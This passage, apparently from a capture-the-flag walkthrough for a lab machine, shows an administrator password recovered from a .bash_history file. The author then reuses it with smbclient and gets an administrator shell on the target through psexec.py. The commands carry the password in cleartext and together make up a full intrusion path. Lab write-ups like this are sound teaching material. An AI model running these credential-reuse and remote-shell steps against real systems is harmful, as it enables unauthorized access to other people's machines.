mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exit
```

Nice! That looks like a password for administrator. Try it on Kali:

```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$ -c 'ls;quit'
```



That is a valid password for administrator. Use it to get a shell as administrator using PsExec:

```bash
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```



